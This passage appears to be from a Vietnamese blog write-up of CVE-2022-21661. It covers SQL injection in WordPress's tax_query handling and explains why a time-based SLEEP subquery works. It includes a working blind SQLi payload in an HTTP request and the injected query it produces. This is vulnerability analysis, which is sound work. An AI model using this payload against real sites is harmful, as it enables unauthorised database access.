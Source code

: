 ## Exploit
Ta tùy chỉnh giá trị của `terms` để mô phỏng trường hợp `terms` truyền vào có thể kiểm soát bởi attacker

```php
'terms' => [$_GET['terms']],
```

### Detect SQLi
Thay giá trị của `terms` bằng payload SQLi và gửi request qua **Burp Suite**:

```http
GET /demo/?terms=1)+AND+(SELECT+1+FROM+(SELECT+SLEEP(5))a)+%23+ HTTP/1.1
```

![Detect](assets/img/posts/2025-09-15-CVE-2022-21661/detect.png)

Cấu query thực sự:

```sql
SELECT SQL_CALC_FOUND_ROWS  wp_posts.ID FROM wp_posts  LEFT JOIN wp_term_relationships ON (wp_posts.ID = wp_term_relationships.object_id) WHERE 1=1  AND ( 
  wp_term_relationships.term_taxonomy_id IN (1) AND (SELECT 1 FROM (SELECT SLEEP(5))a) # )
) AND wp_posts.post_type = 'post' AND (wp_posts.post_status = 'publish') GROUP BY wp_posts.ID ORDER BY wp_posts.post_date DESC LIMIT 0, 10
```

👉 Dựa trên thời gian phản hồi => payload hoạt động.

**Giải thích kỹ thuật (subquery trong mệnh đề FROM)**:

- Payload dùng một subquery trong mệnh đề `FROM`: `FROM (SELECT SLEEP(5)) a`.
- MySQL phải thực thi truy vấn con trước, tạo ra một bảng tạm từ kết quả của subquery, rồi mới tiếp tục thực thi truy vấn chính.
- `SELECT SLEEP(5)` sẽ làm cho truy vấn con chậm 5 giây — do đó thời gian trả về của cả truy vấn tăng tương ứng, cho thấy payload được thực thi.

**Lưu ý về cache và số lượng hàng (rows):**

- MySQL có thể tối ưu/cached một số kết quả con; trong trường hợp cụ thể này `SELECT SLEEP(5)` chỉ cần thực thi 1 lần để tạo bảng tạm, nên thấy đúng một lần độ trễ.
- Nếu phần trước của biểu thức `AND` trả về nhiều hàng và payload được lồng theo cách gây lặp, thời gian trả về có thể tăng theo cấp số (tức là nhân lên theo số hàng), dẫn tới độ trễ lớn hơn nhiều — vì truy vấn con có thể bị thực thi cho mỗi hàng tùy cách optimizer xử lý truy vấn.


[^tax_query]: Vì patch nằm trong file **src/wp-includes/class-wp-tax-query.php** File này định nghĩa class `WP_Tax_Query`, chịu trách nhiệm xử lý tham số `tax_query` trong `WP_Query`. Vì thế, nếu có thay đổi trong file này thì gần như chắc chắn nó liên quan đến quá trình **parse/validate** của `tax_query`. 